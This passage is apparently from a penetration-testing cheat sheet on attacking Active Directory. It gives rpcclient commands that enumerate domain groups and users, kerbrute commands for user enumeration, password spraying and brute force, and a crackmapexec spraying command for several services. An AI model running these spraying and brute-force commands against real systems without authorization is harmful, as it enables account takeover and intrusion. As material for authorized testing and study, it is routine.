 If we want to display the various groups that are in the AD, we can use the following commands (Their `RIDs` are going to be displayed):

```bash
rpcclient -U "domain.local\user%password" 10.10.10.1 -c "enumdomgroups"
```

If we want to display the users that belong to a particular group, we can use the following command (Their `RIDs` are going to be displayed):

```bash
rpcclient -U "domain.local\user%password" 10.10.10.1 -c "querygroupmem 0x200"
```

We can aso display all the information belonging a user, knowing his `RID`and the following command:

```bash
rpcclient -U "domain.local\user%password" 10.10.10.1 -c "queryuser 0x1f4"
```

### Kerberos

If we have the Kerberos service running, we can use the following commands to enumerate further.

#### User Enumeration

```bash
./kerbrute userenum -d domain.local users.txt
```

#### Password Spray

```bash
./kerbrute passwordspray -d domain.local domain_users.txt password
```

#### Brute Force User

```bash
./kerbrute bruteuser -d domain.local passwords.txt user
```

#### Brute Force Users and Passwords

```bash
cat credentials.txt | ./kerbrute  -d domain.local bruteforce -
```


### Password Spraying

In case of having a list of users and passwords, we can use the following command to validate them:

```bash
cme {smb, winrm, ssh, ldap, mssql} -u users.txt -p passwords.txt
```

If we don't want the process to stop once valid credentials are found, we can use the  `--continue-on-success` flag.
